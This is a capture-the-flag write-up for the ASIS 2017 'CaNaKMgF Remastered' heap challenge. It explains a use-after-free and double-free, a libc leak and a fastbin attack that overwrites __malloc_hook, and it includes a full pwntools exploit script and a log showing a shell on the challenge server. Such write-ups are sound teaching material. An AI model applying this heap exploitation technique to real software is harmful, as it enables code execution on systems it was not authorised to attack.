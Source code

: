 ```yaml
---
layout: post
title: ASIS Quals CTF 2017 - CaNaKMgF Remastered
published: True
---
```


**Points:** 384
**Solves:** 25
**Category:** Exploitation 

> [CaNaKMgF_remastered](../binaries/CaNaKMgF_remastered)

{% highlight bash %}
CaNaKMgF_remastered: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e4ba2a9e3c69441f88481b5e06ac21fd52c54b9a, not stripped
{% endhighlight %}

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Intro
This program is based off the `CaNaKMgF` pwnable challenge, except that `CaNaKMgF_remastered` has full RELRO enabled and PIE enabled. Interestingly, during the CTF, I had already solved `CaNaKMgF` using a technique that bypassed both mitigations, so I re-used the same exploit for `CaNaKMgF_remastered` and was able to get the flag.

## Reversing
When we run the program, we are presented with the following menu.

{% highlight bash %}
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
{% endhighlight %}

The program is very simple. It allows us to allocate heap chunks of different sizes, which it places in a global array in the .BSS called `alloc_list[]`. 
We can write data of our choosing into these chunks and the program ensures that the length of our data fits inside the chunk we've allocated for it.  
We can specify chunks from this list that we would like to print out the contents of.
Similarly, we can also free any chunks in this list.
 
There was also some functionality to read limited files off the remote server when one selected the "Pray for Allah" option in the `CaNaKMgF` binary, but this function no longer worked in `CaNaKMgF_remastered`, and I didn't use it in my exploit for `CaNaKMgF`, anyway.

## Exploit
The main vulnerability in this program is that when a chunk is freed, the associated pointer to the chunk is not removed from `alloc_list[]`. This allows us to perform **use-after-frees** and **double-frees** which we can abuse to corrupt the heap and gain code execution.

To get a libc leak, we can exploit the **UAF** to allocate 2 small chunks, free the first one, and then print its contents out, since we know the `FD` and `BK` pointers of our free'd small chunk will be populated with a pointer to an offset from `main_arena` in libc. (The purpose of allocating a 2nd small chunk, is to prevent top chunk consolidation.)

To get control of `RIP`, we can perform a **fastbin attack** to get `malloc()` to return an almost arbitrary pointer, overwrite `__malloc_hook`, and then call our overwritten `__malloc_hook` function pointer by triggering a double free memory corruption error.

To perform the **fastbin attack**, we will allocate 2 fast chunks of size `0x68` bytes, and free the 2nd one, then the 1st one, and then the 2nd one again, abusing the fact that we can double-free fast chunks, so long as the head of the freelist that their fast chunk size is associated with, is not the same as the chunk that is being free'd.  

from `malloc.c`:
{% highlight C %}
if (__builtin_expect (old == p, 0))
  {
    errstr = "double free or corruption (fasttop)";
    goto errout;
  }
{% endhighlight %}

So, right now our fastbin looks like this:

[HEAD]->D->C->D->NULL 

Now, we will allocate another fast chunk of the same size as D, so that D is popped off this freelist and used to service our `malloc()` request.

Since we can also specify the contents of chunks we allocate, we will overwrite the first qword of this chunk with the address of our target that we would like `malloc()` to return.

**This corrupts the `FD` pointer of chunk D, a pointer to  which, still exists in the singly linked freelist!** 

We can select any address to overwrite the `FD` pointer with, subject to certain constraints. 

from `malloc.c`:
{% highlight C %}
 if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
{% endhighlight %}

To satisfy these constraints, we will abuse the fact that we can make `FD` point to misaligned addresses as long as they satisfy the valid size metadata field constraint. In our case, since we are targeting fast chunks of size `0x68`, the following is a valid address should do the trick.

{% highlight C %}
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/32xg 0x7ffff7dd1b10-0x30+0xd
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f 
0x7ffff7dd1afd:                         0xfff7a93270000000      0xfff7a92e5000007f 
0x7ffff7dd1b0d <__realloc_hook+5>:      0xfff7a92c8000007f      0x000000000000007f
0x7ffff7dd1b1d:                         0x0000000000000000      0x0000000000000000
{% endhighlight %}

At this point, our freelist should now look like this:

[HEAD]->C->D->{target addr}

After two more allocations, our target address should now be at the head of this freelist:

[HEAD]->{target addr}

Then, the next memory allocation of size `0x68` should return a pointer to our target address`+0x10` and since we can control the contents of chunks we allocate, we  will simply overwrite `__malloc_hook` with a **"magic" one gadget RCE** address.

Once we trigger an actual double free corruption error, the program should now spawn a shell.

## exploit.py
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def allocate(length, contents):
    r.sendline("1")
    r.recvuntil("Length?")
    r.sendline(str(length))
    r.sendline(contents)
    r.recvuntil("away")

def free(idx):
    r.sendline("3")
    r.recvuntil("Num? ")
    r.sendline(str(idx))
    r.recvuntil("away")

def read(idx):
    r.sendline("4")
    r.recvuntil("Num? ")
    r.sendline(str(idx)) 
    return r.recvuntil("away")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    
    # leak libc
    log.info("starting leaks...")
    allocate(255,"A")
    allocate(255,"B")
    free(0)

    libc_base = u64(read(0)[:6].ljust(8,'\0'))-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base)) 
    log.success("one_shot found at: "+hex(one_shot)+"\n\n") 

    ## fastbin attack
    log.info("starting fastbin attack...")
    allocate(0x68,"C") # C # 2
    allocate(0x68,"D") # D # 3
    allocate(255, "E") # E
    
    free(3)
    free(2)
    free(3)

    # overwrite __malloc_hook
    payload = p64(malloc_hook-0x30+0xd)
    allocate(0x68, payload)
    allocate(0x68, "F")
    allocate(0x68, "G")
    allocate(0x68,"H"*0x13+p64(one_shot))
    free(0)
   
    # trigger
    r.sendline("3")
    r.sendline("0") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./CaNaKMgF_remastered'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  CaNaKMgF_remastered python exploit.py 128.199.85.217 10001
[*] For remote: exploit.py HOST PORT
[+] Opening connection to 128.199.85.217 on port 10001: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting leaks...
[+] libc base found at: 0x7f80b7c9f000
[+] one_shot found at: 0x7f80b7d8e6c4
    
[*] starting fastbin attack...
[*] Switching to interactive mode

Num? $ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
CaNaKMgF
F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
$ cat F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
ASIS{full_relro_fastbin_attack!!!!!!_:-P}
$
{% endhighlight %}

